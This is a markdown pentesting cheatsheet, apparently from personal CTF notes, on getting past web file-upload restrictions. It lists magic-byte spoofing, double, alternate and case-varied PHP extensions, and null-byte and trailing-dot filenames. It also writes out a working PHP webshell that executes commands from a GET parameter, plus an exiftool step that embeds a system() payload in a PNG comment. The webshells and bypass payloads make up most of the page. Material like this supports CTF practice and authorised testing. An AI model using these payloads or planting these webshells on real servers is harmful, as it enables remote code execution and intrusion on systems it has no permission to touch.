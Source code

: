```yaml
---
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/file-upload-bypass]
img_path: /Cheatsheet/Web/Upload bypass/images
---
```



# Magic Bytes; header
![](Pasted%20image%2020220415215405.png)
- if uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
	```
	GIF89a;
	```
- Some Examples:
	- [[PwnLab#Port 80]]

# Append the allowed extension
- If only `.png` allowed, try appending `.png` at the end
- Try both ways
	```
	.php.png
	.png.php
	```
	- Some Examples:
		- [[fristileaks#Port 80]]

# Other PHP Extensions
```
php1
php2
php3
php4
php5
phptml
```
- Some Examples
	- [[RootMe#key 1]]
	- vulnversity writeup

# Case Sensitive Extensions
```
shell.pHP
shell.PhP
shell.pHP4
shell.PhPtml
shell.phP5
```


# Insert .jpg webshell
- Requires LFI to work
	```
	cat > bingchilling.jpg <<EOF
	<html>
	<body>
	<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
	<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
	<input type="SUBMIT" value="Execute">
	</form>
	<pre>
	<?php
		if(isset($_GET['cmd']))
		{
			system($_GET['cmd']);
		}
	?>
	</pre>
	</body>
	</html>
	EOF
	```
	```
	<?php system($_GET['cmd']); ?>  //shell.php
	exiftool "-comment<=shell.php" malicious.png
	strings malicious.png | grep system
	```
- Some Examples:
	- [[port 8001|hackerOne - Easy Port 8001]]

# Nullbyte
```
shell.jpeg%00.php
shell.png%00.php
```

# Trailing (Windows)
- Adding `.` to the end
	```
	shell.aspx.
	shell.php.
	shell.exe.
	```
	
# Exiftool:
- If web application is accepting uploaded files which are passed to exiftool, can, in turn lead to RCE.
- https://hackerone.com/reports/1154542

# RCE via filename
![](Pasted%20image%2020220415215647.png)

# Use burpsuite to find bypass
![](uploadBypass php extension.png)
![](uploadBypass payloads.png)
![](uploadBypass position.png)
![](uploadBypass Results.png)

# Sources:
https://www.onsecurity.io/blog/file-upload-checklist/

